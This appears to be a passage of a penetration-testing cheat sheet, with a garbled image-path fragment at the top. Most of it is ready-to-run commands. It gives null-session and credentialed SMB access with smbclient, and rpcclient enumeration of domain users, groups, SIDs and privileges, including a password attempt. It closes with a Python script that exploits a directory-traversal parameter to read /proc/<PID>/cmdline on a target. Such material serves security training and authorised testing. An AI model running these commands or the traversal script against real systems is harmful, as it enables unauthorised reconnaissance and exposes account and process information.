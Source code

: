     smbclient \\\\<Domain_name>\\<share path> -I <DC_IP> -N


### With Credentials
```bash
smbclient -U "username%password" \\\\host\\SHARE
```


## RPC (tcp/135)
Authenticated or unauthenticated. Below is example for null session.
```
rpcclient -U "" -N $IP
```

Useful rpcclient commands:
```
srvinfo
lsaenumsid   # finds SiDs
enumdomusers     # rid is the suffix of the sid in hex.
enumalsgroups domain
enumalsgroups builtin
enumdomgroups
enumprivs
lookupnames administrators   # gives full SID
queryuser <RID>
queryuser 500  # always administrator


```

### Authetnicated RPC 
smb password attempt:
rpcclient -U "user%pass" -c "getusername;quit" ip



## Directory Traversal
If you manage to find a way to read files via directory traversal, there are tons of lists out there to find useful or less than useful files. But you can also get a partial process list! Of course this is limited by permissions, but you can just iterate through /proc/<PID>/cmdline to get a feel for what else is running on the machine.

```
#!/usr/bin/env python3
import requests,sys

for i in range(100000):
    url=f'http://domain.com/path/to/vulnerable/file.php?page=/proc/{i}/cmdline'
    print(url)
    r=requests.get(url)

    response=r.text
    if response!="":
        print(f"pid {i}: {response}")
        sys.stdout.flush()  # Using this vs print() so that "tee" works properly.
```
